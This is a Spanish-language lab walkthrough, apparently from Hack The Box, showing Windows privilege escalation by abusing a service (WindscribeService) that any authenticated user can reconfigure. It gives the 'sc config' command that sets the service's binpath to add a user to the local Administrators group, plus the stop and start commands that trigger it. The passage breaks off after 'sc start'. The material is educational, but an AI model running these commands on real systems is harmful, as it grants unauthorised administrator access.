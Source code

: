 **Salida relevante:**

* `NT AUTHORITY\Authenticated Users` tiene `SERVICE_ALL_ACCESS`, es decir, permiso completo sobre el servicio (lectura/escritura/control). Esto permite modificar la configuración del servicio, incluido el `ImagePath` o binpath.

---

## 6) Comprobar el grupo de administradores local

**Comando:**

```cmd
net localgroup administrators
```

**Explicación:** lista los miembros del grupo local `Administrators`.

**Salida:** el usuario `htb-student` no estaba en el grupo antes del exploit.

---

## 7) Cambiar la ruta binaria del servicio (binpath) con `sc config`

**Comando usado para cambiar el binpath a un comando que añada el usuario al grupo admin local:**

```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

**Explicación de sintaxis:**

* `sc config <ServiceName> binpath="<comando>"` cambia la configuración del servicio, concretamente el valor `BINARY_PATH_NAME` que indica qué ejecutar al arrancar el servicio.
* La cadena del binpath está entre comillas porque contiene espacios. Se asigna un comando en lugar del ejecutable real: `cmd /c net localgroup administrators htb-student /add`.
* `cmd /c` ejecuta el comando `net localgroup ... /add` y sale.

**Resultado esperado:** `ChangeServiceConfig SUCCESS`.

---

## 8) Parar y arrancar el servicio para ejecutar el binpath malicioso

**Parar servicio:**

```cmd
sc stop WindscribeService
```

**Explicación:** intenta detener el servicio. En el texto se muestra el estado `STOP_PENDING` y otros campos informativos.

**Arrancar servicio:**

```cmd
sc start WindscribeService
```
